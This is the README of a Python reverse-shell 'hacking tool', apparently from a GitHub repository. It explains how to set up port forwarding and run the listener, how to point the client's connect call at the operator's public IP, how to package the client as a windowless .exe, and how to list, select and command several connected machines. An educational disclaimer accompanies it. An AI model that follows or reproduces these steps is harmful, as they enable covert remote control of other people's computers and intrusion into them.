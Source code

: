 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
Make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
Type in the terminal `python3 server.py`

## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
## Conver client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.

## Using the tool
Start server.py and wait for connection.
To see of all your connections type `snake> list` in the interacive prompt.
To send commands to one of your connections type `select` and the ID number of the connection.
E.X.:
`snake> select 0`
When you are in the reverse shell of one of your connection' you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
